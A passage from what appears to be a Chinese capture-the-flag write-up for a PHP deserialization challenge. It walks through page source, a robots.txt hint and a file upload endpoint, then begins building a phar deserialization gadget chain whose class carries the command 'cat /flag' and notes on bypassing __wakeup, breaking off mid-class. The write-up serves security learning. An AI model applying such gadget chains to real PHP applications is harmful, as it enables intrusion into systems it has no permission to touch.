 3. 仔细阅读源代码后发现，没有反序列化入口，因此回到主界面，查看网页源代码：
    ```html
    ...
    <div class="center">
      <p>欢迎来到少羽的uzi跳枪课程</p>
      <p>泥准备好成为<del>沙威玛</del>uzi传奇了嘛</p>
      <button type="button" onclick="location.href='/unserialize.php'">我要学习uzi跳枪课程！</button>
    </div>
    
    <!--啥你说在哪上传？俺不知道昂你去问罗伯特吧-->
    
    </html>
    ```

4. 那就查看一下 `robots.txt` 吧：
    ![image-20240923101653493](TSCTF_J/image-20240923101653493.png)

5. 找到文件上传口：
    ![image-20240923101717812](TSCTF_J/image-20240923101717812.png)

### 2.2 思路

1. 刚拿到这题时，发现文件上传，可以没有文件包含的函数。同时没找到反序列化口，因此网上直接搜索 “PHP 反序列化入口”，发现有 `phar` 的反序列化，进去看了一下，找到了下手的地方。

2. 然后开始构造链条：
    ```php
    class He_Ping
    {
        public $expired = true;
        public $u;
        public $zi = "cat /flag";
    
        # todo 必定执行的前提是绕过结尾报错
        public function __destruct(){
            # todo 当成 string 执行
            $arg = $this->u;
            echo "你想要uzi跳枪的课程？".$arg;
        }
        # todo 需要绕过
        public function __wakeup(){
            $this->expired = False;
        }